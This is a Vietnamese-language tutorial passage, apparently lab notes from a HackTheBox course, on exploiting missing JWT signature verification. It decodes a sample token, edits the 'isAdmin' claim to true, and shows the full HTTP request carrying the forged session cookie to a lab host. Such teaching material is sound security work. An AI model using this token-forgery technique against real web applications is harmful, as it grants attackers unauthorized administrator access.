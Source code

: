 **Lưu ý:** JWT cần có thời gian hết hạn (`exp`) để tránh việc token bị lợi dụng quá lâu nếu bị đánh cắp.

---
# 2. Tấn công vào cơ chế xác minh chữ ký của JWT (Attacking Signature Verification)

#### **1. Bảo vệ dữ liệu bằng chữ ký của JWT**
Chữ ký của JWT đóng vai trò quan trọng trong việc đảm bảo tính toàn vẹn của dữ liệu trong JWT. Chữ ký được tạo từ phần **Header** và **Payload**, sau đó mã hóa bằng một khóa bí mật (secret key). Nếu bất kỳ phần nào trong JWT bị thay đổi, chữ ký sẽ không còn khớp, và server sẽ từ chối JWT này.

#### **2. Lỗ hổng: Thiếu xác minh chữ ký (Missing Signature Verification)**
Trong một số trường hợp, nếu ứng dụng web **không kiểm tra chữ ký** của JWT, hacker có thể dễ dàng chỉnh sửa nội dung Payload và gửi lại token mà không bị phát hiện.

**Ví dụ minh họa:**
- Một trang web có chức năng đăng nhập và sử dụng JWT làm session cookie.
- Sau khi đăng nhập, người dùng nhận được JWT như sau:

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbmI6ZmFsc2UsImV4cCI6MTcxMTE4NjA0NH0.ecpzHiyA5I1-KYTTF251bUiUMtNnrIMwvHeSZf0eB0
```

**Payload sau khi giải mã:**
```json
{
  "user": "htb-stdnt",
  "isAdmin": false,
  "exp": 1711186044
}
```

- Người dùng nhận thấy claim `"isAdmin": false`. Hacker có thể lợi dụng điểm này để thay đổi `"isAdmin": true` và tạo lại JWT với nội dung mới.

**Payload mới:**
```json
{
  "user": "htb-stdnt",
  "isAdmin": true,
  "exp": 1711186044
}
```

- Sau khi chỉnh sửa, hacker có thể sử dụng công cụ như **jwt.io** để mã hóa lại JWT.
- Nếu ứng dụng không kiểm tra chữ ký, token mới sẽ được server chấp nhận và hacker sẽ có quyền admin.

**Yêu cầu HTTP với JWT đã chỉnh sửa:**
```http
GET /home HTTP/1.1
Host: 172.17.0.2
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6dHJ1ZSwiZXhwIjoxNzExMTg2MDQ0fQ.S85PjpnL6BNhBCWk6OYDHc_XjfWogMJV8wq5pKJ6Tv4
```
